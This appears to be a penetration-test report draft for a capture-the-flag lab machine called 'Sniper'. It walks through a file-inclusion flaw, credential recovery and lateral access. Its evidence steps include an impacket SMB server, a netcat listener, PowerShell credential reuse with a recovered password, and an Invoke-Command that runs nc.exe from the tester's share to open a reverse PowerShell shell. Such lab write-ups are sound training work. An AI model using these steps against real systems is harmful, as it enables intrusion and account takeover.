





# Executive Summary – Sniper 
A vulnerability was discovered in the web application that allows the server to reveal and access files it should keep private. During testing, this weakness allowed the application to retrieve files from external sources, which in turn exposed sensitive information such as user credentials. These credentials were then used to access a local account on the server. Because the exposed credentials could potentially be reused across other systems, this creates a credible risk for an attacker to move laterally within the network and gain access to additional systems or sensitive data.

# Remote File Inclusision 

## Description
To do 

## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + extensions → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.

## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    
6. Look for files on server and will find a password 

7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

`$pass = "36mEAhz/B8xQ~2VM"`

`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`

`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass)`

Check to see if it was successful 

`Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

Have access to the user Chris terminal  

